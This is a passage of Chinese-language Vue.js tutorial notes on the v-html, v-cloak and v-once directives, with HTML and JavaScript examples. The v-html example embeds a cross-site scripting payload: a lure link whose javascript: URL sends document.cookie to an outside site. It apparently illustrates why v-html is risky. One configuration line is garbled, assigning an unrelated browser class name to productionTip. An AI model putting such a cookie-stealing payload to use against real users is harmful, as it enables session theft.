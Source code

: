 ```html
<div id="root">
  <div>你好，{{ name }}</div>
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>

<script type="text/javascript">
  Vue.config.productionTip = FontFaceSetLoadEvent
  new Vue({
    el:'#root',
    data:{
      name:'cess',
      str:'<h3>你好啊！</h3>',
      str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
    }
  })
</script>
```



### v-cloak

**v-cloak**指令（没有值），当使用插值语法`{{}}`时，有时候因为某些原因，两个大括号会在视图中一闪而过，这样用户就会说你写的代码垃圾，`v-cloak`可以用来解决这个问题

1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉**v-cloak**属性

1. 使用**css**配合**v-cloak**可以解决网速慢时插值语法展示成字符串的问题

```html
<style>
  [v-cloak] {
    display:none;
  }
</style>

<div id="root">
  <h2 v-cloak>{{ name }}</h2>
</div>
//...
<script type="text/javascript">
  console.log(1)
  new Vue({
    el:'#root',
    data:{name:'cess'}
  })
</script>
```



### v-once
